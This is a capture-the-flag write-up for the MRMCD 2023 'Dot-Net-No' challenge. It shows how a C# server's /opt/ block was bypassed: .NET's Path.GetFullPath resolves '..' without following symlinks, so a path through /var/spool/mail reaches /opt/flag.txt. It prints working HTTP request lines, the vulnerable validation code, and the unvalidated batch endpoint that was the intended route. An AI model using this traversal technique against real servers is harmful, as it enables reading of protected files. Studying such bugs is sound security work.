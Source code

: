 # Dot-Net-No challenge

## The Task

I don't know the exact wording, but it went like this:

> Our OpSec department is very strict with network permissions and doesn't give us
> anything more than the port 443 to access the server. But our team requires SSH
> access, so we build our own HTTP to shell server. But we've secured it up, there's
> no way you can access the flag in `/opt/flag.txt`.
>
> Code of the server is attached.

The server was programmed in C# and ran on the .NET framework. The interface to it
was very simple: One could send POST requests to various endpoints which modeled real
UNIX commands. For example using the awesome [httpie][1] command. 

```bash
$ http post "https://ctf.mrmcd.net/nonononono/Command/cat" "FilePath=/etc/hostname"
271929d87fb4

$ http post "https://ctf.mrmcd.net/nonononono/Command/which" "Command=ls"
/bin/ls

$ http post "https://ctf.mrmcd.net/nonononono/Command/cat" "FilePath=/opt/flag.txt"
HTTP/1.1 400 Bad Request

{
    […]
    "errors": {
        […]
        "FilePath": [
            "Catting files from /opt/ is forbidden"
        ]
    },
    […]
}
```

## The solution

**TL;DR**: .NET and UNIX have different opinions on how paths are resolved. With this
we can circumvent the imposed access-restrictions on the `/opt/` folder.

---

### Exploration

Let us first explore how the server works. 

The server exposes (as can be seen above) multiple endpoints, which correspond to
different commands. Each endpoint uses a `Request` C# Model in order to verify if the
input is valid. If it is, the corresponding command gets executed with the parsed
and validated input.

The `Request` Model for the `cat` command looks like this
```C#
public class CatRequest : CommandRequest, IValidatableObject
{
  private static readonly List<string> forbiddenPathPrefixes = new List<string>{
    "/opt/", // Flag will be here somewhere
    "/proc/" // Good practice
  };

  [Required]
  [RegularExpression(@"^[\w-/.]+$")]
  public string FilePath { get; set; }

  public Type CommandType => typeof(CatCommand);

  // I've no idea why everything from this point on is lower-case ¯\_(ツ)_/¯
  public ienumerable<validationresult> validate(validationcontext validationcontext)
  {
    foreach (var forbiddenprefix in forbiddenpathprefixes)
    {
      if (path.getfullpath(filepath).startswith(forbiddenprefix))
      {
        yield return new validationresult($"catting files from {forbiddenprefix} is forbidden", new[] { nameof(filepath) });
      }
    }
  }
}
```

From this we could derive, that the input to the `cat` endpoint is a parameter called
`FilePath` which needs to match the regex `^[\w-/.]+$` (so no funky stuff with escape
codes) and it isn't allowed to start with `/opt/` nor `/proc/` after the path has
been resolved.

In this code snipped, we can see the reason, why our naive approach of retrieving the
flag (as seen above) did not work. It would directly be filtered out by the `/opt/`
pattern.

The interesting point for our approach here is the `GetFullPath`[^3] method. If we for
example try to access the flag using relative paths, it doesn't work either:

```
$ http post "https://ctf.mrmcd.net/nonononono/Command/cat" "FilePath=/var/../opt/flag.txt"
HTTP/1.1 400 Bad Request
[…]
```

So the `GetFullPath` seems to resolve relative paths too. But does it do this
correctly?

### How Unix resolves paths

If we get a path with a double dot (`..`) in it, the naive approach would be to just
split the path into its nodes, remove the double dots together with the nodes before
and stitch it all together.

```
/var/spool/mail/../test
= ["var", "spool", "mail", "..", "test"]
= ["var", "spool", "test"]
= /var/spool/test
```

But let's see what happens if we plunge that into `realpath`

```
$realpath "/var/spool/mail/../test"
/var/test
```

Well. This is probably unexpected for most. The explanation is relatively simple: the
folder `/var/spool/mail` is a symlink to `/var/mail`. Paths in UNIX are resolved
iteratively, so if we hit during one of the steps on a symlink, we follow it. All
relative descriptors will then work from there.

```
/var/spool/mail/../test
1. /var
2.     /spool
3.           /mail ->
   /var/mail
4.          /.. ->
   /var
5.     /test
=> looking at file in /var/test
```

This is also the behaviour when using e.g. Pythons `pathlib.Path.resolve()`.

### Getting the flag

But how does .NET `GetFullPath` resolve this? Well not well, actually. Probing around
a bit (there are a few symlink folders on Linux which are almost universal), we found
that it uses the naive approach to path resolving. Equipped with that knowledge the
problem was already on the ground[^2].

Using docker and some magic bash one-liner invocations we found a symlinked folder,
whose target path was higher up the tree than the link. Using a very small sample
size we determined, that this one exists on almost every Linux system:
`/var/spool/mail → /var/mail`

At this point we didn't really believe that it would work (explained later), but it
did. So yeah. Challenge cracked

```
http post "https://ctf.mrmcd.net/nonononono/Command/cat" "FilePath=/var/spool/mail/../../opt/flag.txt"
MRMCD2023{d154573r0u5d353r14l1z4710n}
```

> `MRMCD2023{d154573r0u5d353r14l1z4710n}`

### The intended solution

I might have hinted above, but this was not the intended solution - at all. What
wasn't mentioned so far was the existence of a `batch` endpoint. This one would take
a JSON input and execute these commands in-order of occurrence. But the way this was
implemented here was relatively faulty, because it was possible to fully circumvent
the above-mentioned validation checks due to a direct deserialization of the JSON
into the respective commands (instead of into `Request` Models).

During the challenge we did see that endpoint, and it was pretty obvious that this
was the intended attack vector. As such I didn't believe into the approach we used in
the end right upon the point we got the flag.

But well, with this solution I at least have a reason to open a bug report to the
.NET team.

Solved by [Tyalie](https://chaos.social/@tyalie) and 

[1]: https://github.com/httpie/httpie/issues
[^2]: https://youtu.be/6lyoUe7CEYs
[^3]: https://learn.microsoft.com/en-us/dotnet/api/system.io.path.getfullpath?view=net-7.0
